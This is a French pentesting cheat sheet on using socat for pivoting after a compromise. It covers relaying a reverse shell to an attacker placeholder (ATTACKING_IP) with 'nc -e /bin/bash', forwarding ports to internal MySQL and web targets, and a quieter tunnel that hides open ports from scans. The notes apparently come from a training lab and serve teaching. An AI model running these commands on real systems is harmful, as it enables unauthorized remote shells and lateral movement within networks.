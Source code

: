 Il est préférable de considérer socat comme un moyen de joindre deux choses ensemble. il crée un lien entre deux emplacements différents. 

- Cela peut être deux ports sur la même machine
- Cela peut être pour créer un relais entre deux machines différentes
- Cela peut être pour créer une connexion entre un port et un fichier sur la machine à l'écoute, ou bien d'autres choses similaires. 

---
## Reverse shell Relay - Relais shell inverse

Dans ce scénario, nous utilisons socat pour créer un relais nous permettant de `renvoyer un shell inversé` à notre propre machine attaquante. 

- Commençons d'abord par un écouteur netcat sur notre KALI.
- Ensuite, sur le serveur compromis, utilisez la commande suivante pour démarrer le relais :
- De là, nous pouvons ensuite créer un reverse shell vers le port 8000 nouvellement ouvert sur le serveur compromis.

```sh
# KALI
nc -nlvp 4242
```

```sh
# SERVER COMPROMIS
socat tcp-l:8000 tcp:ATTACKING_IP:NETCAT_PORT &
nc  127.0.0.1 8000 -e /bin/bash
```

_Assurez-vous d'abord d'ouvrir le port d'écoute, puis de vous reconnecter à la machine attaquante._

De cette façon, nous pouvons configurer un relais pour envoyer des obus inversés à travers un système compromis, vers notre propre machine attaquante.

---
## Port Forwarding easy - Redirection de port facile

Le moyen rapide et facile de configurer une redirection de port avec socat consiste tout simplement à ouvrir un port d'écoute sur le serveur compromis et à rediriger tout ce qui y parvient vers le serveur cible. 

> Par exemple, si le serveur compromis est 172.16.0.5 et que la cible est le port 3306 de 172.16.0.10, nous pourrions utiliser la commande suivante (sur le serveur compromis) pour créer une redirection de port :

```sh
socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```

Cela ouvre le port 33060 sur le serveur compromis et redirige l'entrée de la machine attaquante directement vers le serveur cible prévu, nous donnant essentiellement accès à la (probablement la base de données MySQL) fonctionnant sur notre cible de 172.16.0.10. 

L'option `fork` est utilisée pour mettre chaque connexion dans un nouveau processus, et l'option `reuseaddr` signifie que le port reste ouvert après qu'une connexion y est établie. 

Combinés, ils nous permettent d'utiliser le même transfert de port pour plusieurs connexions.

Nous pouvons maintenant nous connecter au port 33060 sur le relais (172.16.0.5) et avoir notre connexion directement relayée à notre cible prévue de 172.16.0.10:3306.

---
## Port Forwarding Quiet - Transfert de port Silencieux

La technique précédente est simple et rapide, mais elle ouvre également un port sur le serveur compromis, qui pourrait potentiellement être repéré par n'importe quel type d'analyse d'hôte ou de réseau. 

Cette méthode est légèrement plus complexe, mais ne nécessite pas l'ouverture d'un port externe sur le serveur compromis.

- Tout d'abord, sur notre propre machine attaquante:

```sh
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr 
```

Cela ouvre deux ports : 8000 et 8001, créant un relais de port local. Ce qui entre dans l'un sortira de l'autre.

- Ensuite, sur le serveur relais compromis (172.16.0.5 dans l'exemple précédent):

```sh
socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

Cela établit une connexion entre notre port d'écoute 8001 sur la machine attaquante et le port ouvert du serveur cible. 

- Pour utiliser le réseau fictif d'avant:

```sh
socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &
```

Cela créerait un lien entre le port 8000 sur notre machine attaquante et le port 80 sur la cible visée (172.16.0.10), ce qui signifie que nous pourrions accéder au `localhost:8000` navigateur Web de notre machine attaquante pour charger la page Web desservie par la cible : 172.16.0.10 :80 !
